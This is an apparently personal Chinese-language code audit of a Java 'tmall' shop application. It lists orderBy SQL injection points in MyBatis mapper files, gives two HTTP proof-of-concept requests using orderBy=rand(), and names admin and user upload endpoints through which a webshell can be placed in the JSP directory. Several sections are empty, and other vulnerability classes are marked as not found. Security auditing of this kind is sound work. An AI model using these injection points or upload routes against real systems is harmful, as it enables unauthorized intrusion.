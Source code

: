 ### SQL注入

#### mybatis

* ProductMapper.xml id=select orderBy注入，布尔、延时注入

```http
GET /tmall/admin/product/0/5?orderBy=rand%28%29 HTTP/1.1
Host: 192.168.110.146
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.110.146/tmall/admin
Cookie: JSESSIONID=4A3D8F96D0CA6FEAB9B831A8648946AB; username=admin
Upgrade-Insecure-Requests: 1


```

```http
GET /tmall/product/0/5?orderBy=rand%28%29 HTTP/1.1
Host: 192.168.110.146
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.110.146/tmall/admin
Cookie: JSESSIONID=4A3D8F96D0CA6FEAB9B831A8648946AB; username=admin
Upgrade-Insecure-Requests: 1


```

* ProductMapper.xml id=selectMoreList orderby注入，布尔、延时；ForeProductListController.java @RequestMapping(value = "product/{index}/{count}", method = RequestMethod.GET)
* ProductOrderMapper.xml id=select orderby注入，布尔注入、延时注入；ForeOrderController.java @RequestMapping(value = "admin/order/{index}/{count}", method = RequestMethod.GET, produces = "application/json;charset=UTF-8")
* RewardMapper.xml id=select orderby注入，布尔、延时；RewardController.java @RequestMapping(value = "admin/reward/{index}/{count}", method = RequestMethod.GET, produces = "application/json;charset=utf-8")
* UserMapper.xml id=select orderby注入，布尔、延时；UserController.java @RequestMapping(value = "admin/user/{index}/{count}", method = RequestMethod.GET, produces = "application/json;charset=UTF-8")

#### @Query等

* 无

### 任意文件下载、读取

* 无

### 任意文件上传

* 定位关键字 MultipartFile

```java
// 上传管理员头像，但是前段校验文件后缀，不能目录穿越但是文件上传到jsp目录，可以直接上传webshell
@RequestMapping(value = "admin/uploadAdminHeadImage", method = RequestMethod.POST, produces = "application/json;charset=UTF-8")
```

```java
// 基本同上
@RequestMapping(value = "admin/uploadCategoryImage", method = RequestMethod.POST, produces = "application/json;charset=utf-8")
```

```java
// 基本同上
@RequestMapping(value = "admin/uploadProductImage", method = RequestMethod.POST, produces = "application/json;charset=utf-8")
```

```java
// 前台用户上传头像
@RequestMapping(value = "user/uploadUserHeadImage", method = RequestMethod.POST, produces = "application/json;charset=utf-8")
```

### 模板注入

* 审计项目是将JSP作为模板使用的，暂未发现注入

### XSS

### REC

* 搜索相关关键字未发现

### SSRF

* 搜索相关关键字未发现

### SPEL表达式注入

* 搜素相关关键字暂未发现

### XXE注入

* 搜索相关关键字暂未发现

### 梳理鉴权逻辑，寻找未鉴权接口

### fortify扫描结果分析

#### 手动审计没有分析出的漏洞

#### 手动调整
